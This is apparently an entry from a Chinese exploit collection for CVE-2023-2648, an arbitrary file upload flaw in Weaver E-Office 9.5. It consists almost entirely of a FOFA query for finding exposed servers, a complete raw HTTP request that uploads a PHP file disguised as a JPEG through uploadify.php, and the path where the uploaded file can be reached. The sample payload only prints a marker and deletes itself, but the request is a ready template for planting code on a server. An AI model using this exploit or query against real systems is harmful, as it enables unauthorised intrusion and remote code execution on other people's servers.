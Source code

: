 # 泛微OA E-Office 9.5 uploadify 任意文件上传漏洞 CVE-2023-2648

## 网络测绘

fofa: app="泛微-EOffice"

## POC / EXP

```
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Length: 259
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4
Accept-Encoding: gzip

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="2TrZmO0y0SU34qUcUGHA8EXiDgN.php"
Content-Type: image/jpeg

<?php echo "2TrZmO0y0SU34qUcUGHA8EXiDgN";unlink(__FILE__);?>

--e64bdf16c554bbc109cecef6451c26a4--
```

```
/attachment/3466744850/xxx.php
```